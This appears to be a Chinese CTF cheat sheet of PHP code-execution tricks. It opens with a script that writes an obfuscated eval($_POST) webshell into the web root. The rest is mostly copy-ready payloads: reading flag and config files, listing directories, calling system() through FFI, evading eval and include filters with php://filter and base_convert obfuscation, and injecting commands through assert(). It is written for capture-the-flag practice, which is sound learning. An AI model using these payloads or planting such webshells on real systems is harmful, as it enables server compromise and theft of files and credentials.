 在线php运行：<https://www.jyshare.com/compile/1/>

php执行的方式，php -r 不需要php后缀，可能出现题型。
```
php：这是最基本的PHP命令，用于执行指定的PHP脚本文件。例如，php script.php 会执行名为 script.php 的PHP脚本。

php -f：这个命令用于执行一个PHP脚本文件，与不带 -f 参数的 php 命令类似。两者都可以运行给定的PHP文件，没有限制可以执行哪种文件，文件名也不必用 .php 作为扩展名。

php -r：这个命令用于在命令行中直接传递PHP代码执行。必须特别注意shell变量的替代及引号的使用。使用 -r 参数后不需要开始和结束标识符，并且加上它们还会导致语法错误。例如，php -r 'print_r(get_defined_constants());' 会直接执行括号内的PHP代码。

区别：
php 和 php -f 都用于执行PHP脚本文件，但 -f 参数可以明确指示PHP解释器直接从指定的文件中读取并执行代码。
php -r 用于在命令行中直接执行一行或多行PHP代码，而不是从文件中读取。这种方式适合快速测试小段代码或在脚本中嵌入PHP代码。
使用 php -r 时，不需要提供PHP代码的开始和结束标签 <?php ?>，而 php 和 php -f 执行的是完整的PHP脚本文件，这些文件中包含了这些标签。


php -f 配合下面文件进行写木马：
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

## **php常见特殊函数和绕过**
**1、文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=highlight_file($_GET[1])&1=flag.php

c=show_source('flag.php');

c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
//要读倒数第二个，即反转后读下一个。
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
2、查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
## **代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```


^
^
当前目录文件全部看cat *
命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system


^
## **命令拼接**
```
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} 

$file = "templates/" . $page . ".php";

assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```
闭合，拼接，注释
```
').phpinfo();//
').system("cat templates/flag.php");//
').system('cat templates/flag.php');//
').system('ls');//
```


^
## **程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。